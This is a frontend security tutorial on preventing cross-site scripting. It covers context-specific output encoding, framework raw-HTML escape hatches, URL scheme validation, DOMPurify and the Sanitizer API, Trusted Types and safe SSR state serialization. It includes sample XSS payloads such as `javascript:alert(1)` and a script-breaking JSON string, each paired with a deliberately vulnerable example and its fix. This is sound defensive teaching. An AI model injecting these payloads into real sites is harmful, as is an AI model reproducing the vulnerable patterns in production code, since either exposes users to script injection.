# XSS Prevention (Reflected, Stored, DOM)

> **Date:** 2026-11-06 · **Last updated:** 2026-11-09
> **Category:** Frontend System Design
> **Sub-Topic:** Security / Injection & Output Encoding
> **Level:** Intermediate · **Reading time:** ~32 min
> **Informs:** rendering of user-generated content, rich-text and Markdown pipelines, escape-hatch policy (`dangerouslySetInnerHTML` / `v-html` / `{@html}`), URL validation, Trusted Types and CSP rollout, auth token storage (HttpOnly cookie vs localStorage), user-upload hosting domain, SSR state serialization

> **Pre-requisite:** [CORS & Same-Origin Policy](../01-web-fundamentals/cors-and-same-origin-policy.md) (what an origin is and why same-origin script is all-powerful) and [Browser Storage Mechanisms](../01-web-fundamentals/browser-storage-mechanisms.md) (cookies, `HttpOnly`, localStorage).
> This note explains **how attackers get their JavaScript to run inside your origin**, and the layered defences that stop it.

**Previous:** [Date, Number & Currency Formatting](../06-accessibility-and-i18n/date-number-and-currency-formatting.md) · **Next:** [Content Security Policy (CSP)](./content-security-policy-csp.md)

---

## Table of Contents

1. [ELI5 — Simple Explanation](#eli5--simple-explanation)
2. [Section 1: What XSS Is and Why It Is So Damaging](#section-1-what-xss-is-and-why-it-is-so-damaging)
3. [Section 2: Reflected XSS](#section-2-reflected-xss)
4. [Section 3: Stored XSS](#section-3-stored-xss)
5. [Section 4: DOM-based XSS — Sources and Sinks](#section-4-dom-based-xss--sources-and-sinks)
6. [Section 5: Output Encoding by Context](#section-5-output-encoding-by-context)
7. [Section 6: Framework Auto-Escaping and Its Escape Hatches](#section-6-framework-auto-escaping-and-its-escape-hatches)
8. [Section 7: URL Injection — `javascript:` and Friends](#section-7-url-injection--javascript-and-friends)
9. [Section 8: Rendering User HTML Safely — Sanitizers](#section-8-rendering-user-html-safely--sanitizers)
10. [Section 9: Trusted Types — Making DOM XSS a Compile-Time Problem](#section-9-trusted-types--making-dom-xss-a-compile-time-problem)
11. [Section 10: SSR, Hydration and Serialized State](#section-10-ssr-hydration-and-serialized-state)
12. [Section 11: Defence in Depth — Limiting the Blast Radius](#section-11-defence-in-depth--limiting-the-blast-radius)
13. [Section 12: Finding XSS — Review, Lint, Test](#section-12-finding-xss--review-lint-test)
14. [System Design Angle](#system-design-angle)
15. [Real-World Examples](#real-world-examples)
16. [Key Points Summary](#key-points-summary)
17. [Test Your Understanding (with answers)](#test-your-understanding)
18. [Cheat Sheet](#cheat-sheet)
19. [References & Further Reading](#references--further-reading)

---

## ELI5 — Simple Explanation

Imagine a **school notice board** where anyone can pin a note, and a **teacher reads every note aloud** to the class.

- Most notes say things like *"Lost: blue pencil case"* — the teacher reads them as **words**.
- One day a student pins a note that says: *"TEACHER, STOP READING AND HAND ME THE KEYS TO THE STAFF ROOM."* If the teacher treats that line as an **instruction** instead of words to read out, the student now controls the teacher.
- **Reflected XSS** = the student shouts the instruction *once* and the teacher repeats it straight back.
- **Stored XSS** = the instruction is **pinned to the board**, so the teacher obeys it for *every* class, every day.
- **DOM XSS** = the teacher's *own helper* (your JavaScript) copies a note from the window into the lesson plan without checking it — the board office never even saw it.
- **The fix** is a teacher who always reads notes **as quoted text** (output encoding), who cuts dangerous lines out of fancy notes before pinning them (sanitizing), and a school rule that only **signed** lesson plans can be executed (CSP / Trusted Types).

> **One-line takeaway: XSS happens when data crosses into a code context. Keep data as data — encode it for the exact context it lands in, sanitize HTML you must render, and add CSP + Trusted Types so a single mistake isn't fatal.**

---

## Core Concept — Step by Step

### Section 1: What XSS Is and Why It Is So Damaging

**Cross-Site Scripting (XSS)** is an injection flaw: attacker-controlled input ends up being **interpreted as HTML or JavaScript** in a page served from *your* origin. Because the browser's security model is the **same-origin policy**, script running in your origin is indistinguishable from your own code.



| Property | Why it matters |
|---|---|
| Runs **in your origin** | Same-origin policy, CORS and `SameSite` cookies all treat it as you |
| Runs **as the victim** | Every request carries the victim's cookies; CSRF tokens can be read from the page |
| Invisible to the server (DOM XSS) | Payloads in the URL fragment are never sent to the server, so server logs and WAFs miss them |
| Persists (stored XSS) | One payload attacks every viewer, including admins |

**The three classic types** (OWASP's naming) differ in **where the payload lives** and **who inserts it into the page**:

| Type | Payload lives in | Inserted into the page by | Typical vector |
|---|---|---|---|
| **Reflected** | The current request (query, path, form body) | The **server** echoing it into the response | Search pages, error messages, redirects |
| **Stored** (persistent) | Your database / storage | The **server or client** rendering saved data | Comments, profile names, Markdown, file uploads |
| **DOM-based** | A browser-side source (`location`, `postMessage`, storage) | **Your client-side JavaScript** writing it to a sink | SPA routers, hash-based widgets, analytics snippets |

> Modern guidance also groups them as **server XSS** (untrusted data included in the HTML response) vs **client XSS** (untrusted data written to the DOM by JS). In SPAs, most XSS is **client XSS**, whether the data came from the URL (DOM) or from your API (stored).

---

### Section 2: Reflected XSS

The server takes part of the **request** and copies it into the **response HTML** without encoding. The attacker delivers a crafted link (email, chat, ad, another site).



```html
<!-- Server template: BAD — raw interpolation -->
<h1>Results for <%- query %></h1>

<!-- Request: /search?q= -->
<!-- Response the browser parses: -->
<h1>Results for </h1>
```

**Why it still happens:** a "quick" error page, a legacy server-rendered route, a 404 page that prints the path, or a redirect page that prints the `next` URL.

**Fix:** use a template engine with **auto-escaping on** (EJS `<%= %>`, Jinja2 autoescape, Razor, Go `html/template`, Thymeleaf `th:text`), never the raw form, and validate parameters that are later used as URLs.

> **XSS Auditor is gone.** Chrome removed its XSS Auditor (Chrome 78) and Safari removed its filter (Safari 15.4); Firefox never had one. The `X-XSS-Protection` header is deprecated — omit it or send `X-XSS-Protection: 0`, and rely on encoding + CSP instead.

---

### Section 3: Stored XSS

The payload is **saved** (database, object storage, cache, logs) and served to **every** user who views it — often including support agents and admins (sometimes called **blind XSS** when it fires in an internal tool the attacker cannot see).



Key point: **storing the raw string is not the bug — rendering it as HTML is.** Escaping on the way *in* (HTML-encoding before saving) corrupts data for other consumers (mobile apps, emails, CSV exports, search) and still fails if one consumer decodes it. **Encode on output, for the output context.**

**Common stored-XSS carriers:**

| Carrier | Why it's dangerous |
|---|---|
| Display names, bios, comments | Rendered in many places — one unsafe component is enough |
| Markdown / rich text | Markdown allows raw HTML by default in many renderers; editors emit HTML |
| **SVG uploads** | SVG is XML that can contain `<script>` and event handlers; opened directly it runs in your origin |
| HTML / PDF / text uploads | Browsers may render them in your origin if served with the wrong `Content-Type` or sniffed |
| File names, URLs, link previews | Often rendered in admin tables, toasts and notifications |
| Third-party data (CMS, webhooks, partner APIs) | "Trusted" sources get compromised too |

---

### Section 4: DOM-based XSS — Sources and Sinks

DOM XSS lives entirely in **your client-side code**: a value flows from an attacker-controllable **source** into a dangerous **sink** without being made safe.



| Sink category | Examples | Safe alternative |
|---|---|---|
| **HTML parsing** | `innerHTML`, `outerHTML`, `insertAdjacentHTML`, `document.write`, `Range.createContextualFragment`, `DOMParser` result inserted into the page | `textContent`, `createElement` + `append`, framework text bindings, sanitizer for real HTML |
| **JS execution** | `eval`, `new Function`, `setTimeout('code')`, `setInterval('code')` | Pass functions, not strings; `JSON.parse` for data |
| **URL navigation / loading** | `location.href = x`, `a.href = x`, `iframe.src = x`, `window.open(x)`, `form.action = x` | Parse with `new URL()` and allow-list protocols (Section 7) |
| **Script loading** | `script.src = x`, `script.textContent = x`, `import(x)` | Never derive script URLs from input; allow-list known modules |
| **Attribute names / event handlers** | `el.setAttribute(userKey, v)`, `el['on' + name] = …` | Never let input choose attribute or property names |

**Why DOM XSS evades server defences:** the URL **fragment** (everything after the hash) is never sent in the HTTP request, so server-side validation, logs and WAFs never see `https://app.example/page` plus a malicious fragment.

**`postMessage` is a source too:**

```javascript
// ❌ BAD: any window (any origin) can post a message
window.addEventListener('message', (e) => {
  document.getElementById('banner').innerHTML = e.data.html;
});

// ✅ GOOD: check the sender's origin, validate the shape, render as text
window.addEventListener('message', (e) => {
  if (e.origin !== 'https://widgets.example.com') return;
  if (typeof e.data?.title !== 'string') return;
  document.getElementById('banner').textContent = e.data.title;
});
```

---

### Section 5: Output Encoding by Context

**Encoding is context-specific.** The same string needs different treatment depending on *where* in the document it lands, because each context has its own parser and its own "break-out" characters.

```mermaid
flowchart TD
    D["Untrusted value"] --> Q{"Where does it land?"}
    Q -->|"Between tags<br/>(HTML body)"| C1["HTML-entity encode<br/>&amp; &lt; &gt; &quot; &#x27;"]
    Q -->|"Quoted attribute value<br/>(title, alt, value)"| C2["Attribute encode + ALWAYS quote"]
    Q -->|"URL attribute<br/>(href, src, action)"| C3["Validate scheme with new URL()<br/>then attribute-encode"]
    Q -->|"URL query parameter"| C4["encodeURIComponent()"]
    Q -->|"Inside a script block<br/>or event handler"| C5["Avoid. Put data in JSON or a<br/>data- attribute, read it from JS"]
    Q -->|"CSS value"| C6["Avoid. Allow-list values<br/>(e.g. known colours)"]
    Q -->|"Raw HTML wanted"| C7["Sanitize (DOMPurify / setHTML)"]
```

| Context | Example | Break-out characters | Correct treatment |
|---|---|---|---|
| HTML body | `<p>{value}</p>` | `<` `&` | HTML-entity encode (what frameworks do for text) |
| Quoted attribute | `<input value="{value}">` | `"` `'` `&` | Attribute encode; **always quote** — unquoted attributes break on a space |
| URL attribute | `<a href="{value}">` | scheme (`javascript:`) | Encoding is **not enough**; validate the scheme |
| JS string | `<script>var x='{value}'</script>` | `'` `</script>` line breaks | Don't do it. Serialize JSON safely (Section 10) or use `data-*` |
| Event handler | `<div onclick="go('{value}')">` | HTML decoding runs **first**, then JS parsing | Never interpolate; attach handlers in JS |
| CSS | `<div style="color: {value}">` | `;` `}` `url(` `expression(` (legacy IE) | Allow-list values or set via `el.style.setProperty` |

**The "double context" trap:** in `onclick="go('{value}')"`, HTML-encoding `'` as `&#x27;` doesn't help — the HTML parser **decodes** the attribute back to `'` before the JS engine sees it. This is why OWASP says *never* put untrusted data into event handler attributes.

> **Input validation is a helpful extra, not the fix.** Validating that an age is a number or a username matches `[a-z0-9_]+` reduces attack surface, but free-text fields (names like *O'Brien*, comments with `<3`) must accept dangerous characters — so output encoding must still be correct everywhere.

---

### Section 6: Framework Auto-Escaping and Its Escape Hatches

Every modern UI framework **escapes text interpolation by default** — that's the single biggest reason XSS is rarer in SPAs. Each one also provides an **escape hatch** that renders raw HTML. Those hatches are where most framework-era XSS lives.



| Framework | Safe default | Raw-HTML escape hatch | Built-in sanitizing? | URL handling |
|---|---|---|---|---|
| **React** | `{value}` in JSX is text | `dangerouslySetInnerHTML={{ __html }}` | ❌ No | React 16.9+ warns on `javascript:` URLs; React 19 blocks them in the attributes it renders. Still validate yourself |
| **Vue** | `{{ value }}`, `:attr` bindings | `v-html` | ❌ No | Not checked — Vue's security guide says to sanitize URLs yourself |
| **Angular** | `{{ value }}`, `[prop]` bindings | `[innerHTML]` (sanitized!), `bypassSecurityTrustHtml()` (not) | ✅ Yes — HTML, style, URL and resource-URL contexts | Unsafe URLs are rewritten; resource URLs (`iframe src`, `script src`) refused unless explicitly trusted |
| **Svelte** | `{value}` | `{@html value}` | ❌ No | Not checked |
| **Solid** | `{value}` | `innerHTML={value}` | ❌ No | Not checked |
| **Lit** | `${value}` in `html\`\`` templates | `unsafeHTML(value)` directive | ❌ No | Not checked |

**Other framework-era pitfalls:**
- **Client-side template injection:** never compile **user input as a template** (Vue in-DOM templates mounted over server-rendered HTML that contains user data, Angular JIT with dynamic templates, `new Function` templating). Framework expression syntax like `{{ }}` becomes code execution. Vue's docs state: never use non-trusted content as your component template.
- **Spreading user objects into props:** `<div {...userProvidedProps} />` lets an attacker set `dangerouslySetInnerHTML` or `href`. Pick fields explicitly.
- **Refs and direct DOM:** `ref.current.innerHTML = x`, Angular `ElementRef.nativeElement.innerHTML = x` bypass framework protections (Angular's docs explicitly warn against direct DOM APIs).
- **Server Components / SSR** render to HTML strings on the server — JSX text is still escaped there, but `dangerouslySetInnerHTML` is just as dangerous.

**Native mobile and WebViews:** native text views (`UILabel`, Android `TextView`, React Native `<Text>`) don't parse HTML, so XSS appears where you embed web content:
- Android `WebView` with `setJavaScriptEnabled(true)` + `addJavascriptInterface()` exposes native objects to **any** script in the page — XSS in that content becomes native-bridge access.
- iOS `WKWebView.evaluateJavaScript` / React Native WebView `injectJavaScript` with string-concatenated user data is an `eval` sink. Pass data as JSON via message handlers instead.
- Restrict WebView navigation to allow-listed origins (`originWhitelist` in `react-native-webview`, navigation delegates natively).

---

### Section 7: URL Injection — `javascript:` and Friends

Escaping protects against breaking *out* of an attribute — but `href="javascript:alert(1)"` contains no special characters at all. **URLs need validation, not just encoding.**



**Why `new URL()` and not a regex:** browsers strip leading whitespace and control characters, and ignore tabs/newlines inside the scheme — `" jAvAsCrIpT:..."` and `"java\tscript:..."` both execute. The URL parser applies exactly those normalization rules, so checking `url.protocol` matches what the browser will do.

**Related URL bugs:**
- **Open redirects** (`/login?next=https://evil.example`) aren't XSS, but they are used in phishing and OAuth token theft — validate the origin.
- `data:` URLs: modern browsers block **top-level navigation** to `data:` URLs initiated by pages, but `data:` in `<iframe src>` or `<object>` can still render attacker HTML (in an opaque origin). Don't allow it from user input.
- `<a target="_blank">` without `rel="noopener"` used to give the opened page `window.opener`; modern browsers imply `noopener` for `target="_blank"`, but adding it explicitly is harmless.

---

### Section 8: Rendering User HTML Safely — Sanitizers

Sometimes you **must** render HTML: rich-text comments, CMS content, Markdown, emails. Encoding would show tags literally, so you **sanitize**: parse the HTML and keep only an allow-list of elements and attributes.



**Options:**

| Tool | What it is | Notes |
|---|---|---|
| **DOMPurify** | Widely used allow-list sanitizer maintained by Cure53 | Runs in the browser (uses the real DOM parser). On the server it needs a DOM implementation such as jsdom. Keep it updated — sanitizer bypasses are found and fixed over time |
| **`Element.setHTML()` / `Document.parseHTML()`** (Sanitizer API) | Built-in "parse + sanitize + insert" | Per MDN's compatibility data: Chrome/Edge 146+, Firefox 148+, **not yet in Safari** — feature-detect and fall back to DOMPurify. Its default configuration always strips script-executing content |
| `setHTMLUnsafe()` / `parseHTMLUnsafe()` | Parses HTML **without** sanitizing (adds declarative shadow DOM support) | As dangerous as `innerHTML` — the name says so |
| **Sandboxed `<iframe>`** | Isolate untrusted documents | `sandbox` without `allow-same-origin` gives the content an opaque origin; ideal for HTML emails and user-built pages |
| Server-side sanitizers (bleach-style, `sanitize-html`, OWASP Java HTML Sanitizer) | Sanitize before storing or serving | Fine as an extra layer, but parser differences between server and browser can be exploited — sanitize **where it's parsed** when you can |

**Mutation XSS (mXSS):** HTML parsing is not idempotent for some malformed or nested inputs — sanitized markup can **change meaning** when it's serialized to a string and parsed again (namespace confusion between HTML, SVG and MathML is a classic). Rules:
1. Sanitize **as late as possible**, ideally on the client right before insertion.
2. **Insert the sanitizer's output directly** — don't run it through other string transformations (Markdown, regex replace, templating) afterwards.
3. Prefer APIs that sanitize and insert in one step (`setHTML`, DOMPurify with `RETURN_DOM_FRAGMENT` or `RETURN_TRUSTED_TYPE`).

**Sanitizer configuration that matters:**
- Strip `<script>`, `<iframe>`, `<object>`, `<embed>`, `<base>`, `<form>`, `<meta>`, `<style>` (unless you have a reason), all `on*` attributes, and `javascript:` URLs. DOMPurify's defaults remove the script-executing parts (`<script>`, `<iframe>`, `<object>`, `<embed>`, `<base>`, `<meta>`, `on*` handlers, `javascript:` URLs) but **keep** `<form>`, `<input>`, `<button>`, `<textarea>`, `<select>`, `<style>` and the `style` attribute — forbid those explicitly (`FORBID_TAGS` / `FORBID_ATTR`) or use a tight `ALLOWED_TAGS` list for user content.
- Add `rel="noopener noreferrer nofollow"` to user links (via a hook) — `nofollow`/`ugc` also matters for SEO spam.
- Be careful with `style` attributes (CSS-based data exfiltration and UI redress) and `id`/`name` attributes (**DOM clobbering**: `` makes `document.config` point to the element, which can break code that reads globals).

---

### Section 9: Trusted Types — Making DOM XSS a Compile-Time Problem

**Trusted Types** turn dangerous sinks into **typed APIs**. With the CSP directive `require-trusted-types-for 'script'`, the browser **refuses plain strings** at sinks like `innerHTML`, `eval` and `script.src`; only `TrustedHTML` / `TrustedScript` / `TrustedScriptURL` objects created by a **named policy** are accepted.



```http
Content-Security-Policy: require-trusted-types-for 'script'; trusted-types app-html dompurify
```

- `require-trusted-types-for 'script'` — enforce types at DOM XSS sinks.
- `trusted-types app-html dompurify` — the only policy names allowed to be created (an allow-list you can audit).
- A policy named **`default`** is special: it's called for every plain-string assignment, which is useful for migrating legacy code (log and sanitize, or reject).

**Why it's powerful for system design:** instead of auditing every `innerHTML` across the codebase (and every dependency), security review shrinks to **the few policy functions**. Violations are reported via CSP reporting, so you can roll out in **report-only** mode first (see [Content Security Policy (CSP)](./content-security-policy-csp.md)).

**Support:** Chromium has had Trusted Types since version 83; MDN's compatibility data lists Firefox 148+ and Safari 26+ as well, so it now works across all three engines — but older browsers simply ignore the directive, so treat it as an extra layer, not your only defence. Angular documents built-in Trusted Types support (policy names such as `angular` and `angular#unsafe-bypass`); for other frameworks check their docs and your libraries for compatibility.

---

### Section 10: SSR, Hydration and Serialized State

Server rendering frameworks embed **initial state** in the HTML so the client can hydrate. If you write that state yourself, `JSON.stringify` alone is **not safe** inside `<script>`:

```javascript
const state = { bio: '</script><script>alert(1)</script>' };

// ❌ BAD: the HTML parser ends the script element at the first "</script>"
html += `<script>window.__STATE__ = ${JSON.stringify(state)}</script>`;

// ✅ GOOD: escape characters that are special to the HTML parser
const safeJson = JSON.stringify(state)
  .replace(/</g, '\\u003c')
  .replace(/>/g, '\\u003e')
  .replace(/&/g, '\\u0026')
  .replace(/\u2028/g, '\\u2028')
  .replace(/\u2029/g, '\\u2029');
html += `<script>window.__STATE__ = ${safeJson}</script>`;
```

- `\u003c` is still `<` once JavaScript parses the string, but the **HTML parser** never sees a `<`, so it can't close the element.
- Even better: `<script type="application/json" id="state">` with the same escaping, then `JSON.parse(el.textContent)` — no JS execution context at all, and it works with a strict CSP.
- Framework-managed state (Next.js, Nuxt, SvelteKit, Angular transfer state) handles this for you; the risk is **hand-written** `<script>` injection such as JSON-LD for SEO — Next.js's JSON-LD guide recommends replacing `<` with `\u003c` for exactly this reason.

---

### Section 11: Defence in Depth — Limiting the Blast Radius

Assume one XSS bug will ship eventually. Layers decide whether it's a minor bug or a breach.

